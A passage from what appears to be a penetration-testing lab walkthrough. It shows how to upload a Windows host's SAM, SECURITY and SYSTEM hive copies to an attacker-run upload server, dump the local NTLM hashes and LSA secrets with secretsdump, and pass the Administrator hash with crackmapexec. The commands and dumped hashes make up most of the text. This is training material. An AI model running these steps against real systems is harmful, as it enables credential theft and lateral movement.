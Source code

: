 Now in the attacker machine:

```
python -m uploadserver
```

This will create a listening server at port 8000.

And from the target host:

```
Invoke-FileUpload -Uri http://10.10.14.158:8000/upload -File "C:\Tools\SAM-2021-08-09"
Invoke-FileUpload -Uri http://10.10.14.158:8000/upload -File "C:\Tools\SECURITY-2021-08-09"
Invoke-FileUpload -Uri http://10.10.14.158:8000/upload -File "C:\Tools\SYSTEM-2021-08-09"
```

Now we can use  impacket-secretsdump to extract the hashes:

```shell-session
secretsdump.py -sam SAM-2021-08-09 -system SYSTEM-2021-08-09 -security SECURITY-2021-08-09 local
```

And the output:

```
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Target system bootKey: 0xebb2121de07ed08fc7dc58aa773b23d6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
hacker:1003:aad3b435b51404eeaad3b435b51404ee:657cc99ace25cc19c7d2902f26fb826d:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3c7b7e66890fb2181a74bb56ab12195f248e9461
dpapi_userkey:0xc3e6491e75d7cffe8efd40df94d83cba51832a56
[*] NL$KM 
 0000   45 C5 B2 32 29 8B 05 B8  E7 E7 E0 4B 2C 14 83 02   E..2)......K,...
 0010   CE 2F E7 D9 B8 E0 F0 F8  20 C8 E4 70 DD D1 7F 4F   ./...... ..p...O
 0020   42 2C E6 9E AF 57 74 01  09 88 B3 78 17 3F 88 54   B,...Wt....x.?.T
 0030   52 8F 8D 9C 06 36 C0 24  43 B9 D8 0F 35 88 B9 60   R....6.$C...5..`
NL$KM:45c5b232298b05b8e7e7e04b2c148302ce2fe7d9b8e0f0f820c8e470ddd17f4f422ce69eaf5774010988b378173f8854528f8d9c0636c02443b9d80f3588b960
[*] Cleaning up... 
```

Now we can use other tools for continuing the exploitation. For instance:

```
crackmapexec smb  10.129.43.13 -u Administrator -H 7796ee39fd3a9c3a1844556115ae1a54 -d INLANEFREIGHT.LOCAL --sam  
```


